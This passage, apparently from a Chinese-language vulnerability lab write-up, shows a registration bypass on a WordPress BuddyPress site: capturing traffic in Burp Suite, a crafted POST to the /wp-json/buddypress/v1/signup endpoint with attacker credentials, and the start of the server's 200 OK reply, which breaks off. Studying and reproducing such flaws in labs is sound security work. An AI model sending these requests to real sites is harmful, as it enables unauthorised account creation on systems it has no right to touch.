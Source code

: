 ### （二）注册绕过
1. **抓包注册请求**
   - 使用 Burp Suite 抓包。
   ![1747897930858](image/readme/1747897930858.png)
   - 点击`send to repeater`，构造 POST 请求，发送到 `/wp-json/buddypress/v1/signup`。
   - 请求体如下：
     ```json
     {
       "user_login": "attacker1",
       "user_email": "attacker1@163.com",
       "user_name": "attacker1",
       "password": "attacker1"
     }
     ```
    - 最终构造的请求包：
        ```http
        POST /wp-json/buddypress/v1/signup HTTP/1.1
        Host: 192.168.20.12:10459
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
        Accept: */*
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
        Content-Type: application/json; charset=UTF-8
        Content-Length: 112

        {"user_login": "attcker1", "user_email": "attacker1@163.com", "user_name": "attacker1", "password": "attacker1"}
        ```

    - 替换 `Host` 为自己的 IP 和端口。
    - 得到回显:
        ```http
         HTTP/1.1 200 OK
         Date: Thu, 22 May 2025 03:48:36 GMT
         Server: Apache/2.4.18 (Ubuntu)
         X-Robots-Tag: noindex
         Link: <http://192.168.20.12:10459/wp-json/>; rel="https://api.w.org/"
         X-Content-Type-Options: nosniff
         Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
         Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type
         Allow: POST